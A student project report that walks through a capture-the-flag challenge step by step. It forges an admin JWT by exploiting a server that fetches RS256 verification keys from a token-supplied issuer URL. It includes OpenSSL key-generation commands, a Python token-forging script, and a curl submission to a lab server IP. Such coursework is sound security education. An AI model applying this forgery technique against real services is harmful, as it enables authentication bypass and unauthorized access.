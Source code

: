 
## CITS1003 Project Report
Student ID: 23170871

Student Name: Colin Melville

# Part 1 - Linux & Networking
## Emu Hack #4 - Git Gud or GTFO Bin
### Step 1: Understand and Analyze the Challenge
A cursory look at the `website.js` file reveals that the weakness is in the `validateJwt` function: which supports both HS256 (symmetric signing with a secret key) and RS256 (asymmetric signing with a public/private key) algorithms. 

Critical details are as follows:

 - **HS256**: Uses a `SECRET_KEY` (a 64-byte random value generated at runtime) to both sign and verify the token. This is secure as long as the secret remains private, which it does in this case since it’s not exposed.
 - **RS256**: Allows the token to specify an iss (issuer) claim in the JWT payload, which is a URL pointing to a public key. The server downloads this public key using the `downloadFromUrl` function and uses it to verify the token’s signature.

The flaw lies in the RS256 implementation:

-   The server trusts the iss URL provided in the JWT payload without sufficiently validating its source or content, beyond a basic check that it starts with `http://` or `https://`. 

	This is evident in line 23:
	 `    const proto = !url.charAt(4).localeCompare('s') ? https : http;
`
-   This means that there's no restriction preventing an attacker from hosting their own public key at a URL they control and crafting a JWT signed with the corresponding private key.
-   The emu server will then download this attacker-controlled public key and use it to verify the token, effectively allowing the attacker to bypass authentication.

Obviously we will want to login with admin privileges, so **we'll exploit the RS256 path to create our own token** with username: "superior-emu".

### Step 2: Generate RSA Key Pair
To generate an RSA key pair, I used OpenSSL. 

**Firstly, we must generate a private key**:
`openssl genrsa -out private.pem`. This generates the file `private.pem` containing the private key. 
- In greater detail, it uses OpenSSL's 'genrsa' function. Keyword `-out` means it produces the file `private.pem`.
 
**Secondly, we have to extract the corresponding public key**: 
`openssl rsa -in private.pem -pubout -out public.pem`. This takes in the private.pem file we've generated, and outputs the public.pem file. 
- In greater detail, it uses OpenSSL's 'rsa' function. `-in` specifies the input filename (private.pem) to read a key from. Keyword `-pubout` means that we want a public key to be returned. Finally, `-out` means we want public.pem to be the filename of the returned output.

**Result:**

### Step 3: Hosting the Public Key
This is a straightforward step, consisting of only three things:

1. Copy the contents of public.pem.
2. Go to Pastebin, paste the public key, and create a public paste.
3. Get the raw URL of the pastebin.
4. Test it in a browser to ensure it serves the plain text of the public key.

This means that we now have our own iss value hosted on the net, which we can use in our own malicious JWT.
#### Result:
![](flag.png)

### Step 4: Create JWT
This step involves making a simple JWT-producing function, which we'll create using our Pastebin-hosted iss:
```python
import jwt

with open("private.pem", "r") as f:
    private_key = f.read()

payload = {
    "username": "superior-emu",
    "iss": "https://pastebin.com/raw/your-paste-id"
}

token = jwt.encode(payload, private_key, algorithm="RS256")
print(token)
```
Let's break down the function step by step:

 1. `import jwt`
    We import `jwt`, which is a common JSON Web Token (JWT) implementation in Python. This is necessary for encoding our JWT.
 2. `with open("private.pem", "r") as f:
	  private_key = f.read()`
	  This is a simple file read-in functionality, allowing us to open our private key, storing it to our `private_key` variable. This is needed for the encoding stage.
  3. `payload = {
    "username": "superior-emu",
    "iss": "https://pastebin.com/raw/your-paste-id"
}`
Here we craft our malicious payload, using our desired aforementioned admin username. Our ISS is the raw Pastebin URL of the public key, so we just paste that it.
4. `token = jwt.encode(payload, private_key, algorithm="RS256")`
Finally, we use the `jwt` function `encode`, which takes parameters `payload`, `private_key`, and `algorithm` to produce a valid JWT.
5. `print(token)`
Finally, we want to see our JWT, so we print it out. 

**Result:**

### Step 5: Submitting the JWT
Finally, we submit the JWT using `curl` to the server at `34.87.251.234` on channel `3002`. To do this we can just type the following code into terminal:


`curl -X POST http://34.87.251.234:3002/api/validate/jwt
  -H "Content-Type: application/json"
  -d '{"jwt": "your-jwt-token-here"}'
`

In greater detail:
1. `curl`
`curl` or "Client URL" is a command-line tool used to transfer data to or from a server using various protocols, usually HTTP/HTTPS. We will use it to send our HTTP POST request to the Emus’ server
2. `-X POST`
The `-X` flag specifies the HTTP method to use. `POST` tells `curl` to send a `POST` request instead of the default `GET` request. We use `POST` because the endpoint in the Express app only uses `POST` requests, and we want to send stuff to the emu server.
3. `http://34.87.251.234:3002/api/validate/jwt`
This specifies exactly where we want to send stuff. We're sending it to the server IP (`34.87.251.234`), port `3002`, endpoint path `api/validate/jwt`.
4. `-H "Content-Type: application/json"`
The `-H` flag adds a HTTP header to the request, setting the `Content-Type` header to be `json`. This is metadata about our request, without which might lead to wrong interpretations of the data we're sending.
5. `-d '{"jwt": "your-jwt-token-here"}'`
Finally, the data we're sending. The `-d` flag is shorthand for `--data`. Here, we're sending a JSON string, consisting of our JSON object 'jwt', with the value of our generated JWT.

**Result:**
